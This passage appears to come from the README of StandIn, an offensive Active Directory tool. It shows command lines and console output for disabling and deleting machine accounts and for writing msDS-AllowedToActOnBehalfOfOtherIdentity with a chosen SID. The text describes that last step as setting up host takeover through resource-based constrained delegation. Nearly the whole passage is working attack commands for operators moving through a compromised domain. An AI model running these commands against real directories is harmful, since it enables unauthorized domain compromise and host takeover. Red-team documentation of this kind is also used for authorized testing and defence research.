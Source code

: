 ```
C:\> StandIn.exe --computer M-1337-b33f --disable

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-1337-b33f
    Path     : LDAP://CN=M-1337-b33f,CN=Computers,DC=main,DC=redhook,DC=local

[+] Machine account currently enabled
    |_ Account disabled..
```

### Delete machine object

#### Use Case

> *With elevated AD privileges the operator can delete a machine object, such as once create earlier in the attack chain.*

#### Syntax

Use an elevated context to delete a machine object.

```
C:\> StandIn.exe --computer M-1337-b33f --delete

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-1337-b33f
    Path     : LDAP://CN=M-1337-b33f,CN=Computers,DC=main,DC=redhook,DC=local

[+] Machine account deleted from AD
```

### Add msDS-AllowedToActOnBehalfOfOtherIdentity

#### Use Case

> *With write access to a machine object this function allows the operator to add an `msDS-AllowedToActOnBehalfOfOtherIdentity` property to the machine which is required to perform a [resource based constrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) attack.*

#### Syntax

Add an `msDS-AllowedToActOnBehalfOfOtherIdentity` propert to the machine along with a SID to facilitate host takeover using resource based constrained delegation.

```
C:\> StandIn.exe --computer m-10-1909-03 --sid S-1-5-21-1293271031-3053586410-2290657902-1205

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-03
    Path     : LDAP://CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local
[+] SID added to msDS-AllowedToActOnBehalfOfOtherIdentity

C:\> StandIn.exe --object samaccountname=m-10-1909-03$

[?] Using DC : m-w16-dc01.main.redhook.local
[?] Object   : CN=M-10-1909-03
    Path     : LDAP://CN=M-10-1909-03,OU=Workstations,OU=OCCULT,DC=main,DC=redhook,DC=local

[?] Iterating object properties

[+] logoncount
    |_ 107
[+] codepage
    |_ 0
```